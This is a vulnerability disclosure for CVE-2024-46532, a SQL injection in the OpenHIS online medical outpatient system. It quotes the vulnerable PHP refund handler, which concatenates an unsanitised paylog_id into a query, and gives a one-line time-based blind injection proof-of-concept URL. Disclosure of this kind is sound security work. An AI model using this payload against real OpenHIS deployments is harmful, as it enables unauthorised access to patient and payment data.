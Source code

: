 # CVE number:
CVE-2024-46532

# vendor:
上海顶想信息科技有限公司(https://www.kancloud.cn/)

# product:
互联网医疗系统(医疗门诊OpenHIS)

# version:
V1.0

# affected component:
https://github.com/1638824607/OpenHIS?tab=readme-ov-file

# Reproduction of SQL Injection Vulnerabilities in OpenHIS

# Vulnerabilities：
OpenHIS-master/Application/His/Controller/PayController.class.php

# Vulnerability code：
    public function refund()
    {
        $paylog_id = I('get.paylog_id',0);
    
        $amount = I('post.amount','all');//all就是是全部
        $adm_uid = I('post.adm_uid',0);//all就是是全部
        $adm_memo = I('post.adm_memo','退款');//all就是是全部
    
        if(!$paylog_id||!$amount)$this->resJSON(1,'参数缺失:paylog_id or amount');
    
        #todo 这里需要添加功能权限，无权限不能使用
    
        $sql = "SELECT a.*,b.hospital_id,b.type_id,b.order_code,b.ol_pay_part,b.amount,b.patient_id FROM ".$this->tab_pre."his_care_paylog a LEFT JOIN ".$this->tab_pre."his_care_pkg b ON a.pkg_id=b.id WHERE a.id='$paylog_id' LIMIT 1";
    
        $r = $this->db->query($sql);
        if(!$r)$this->resJSON(2,'paylog_id无效',$sql);

# POC:
  /index.php/pay/refund?paylog_id=aaaa'+or+sleep(.6)+--+

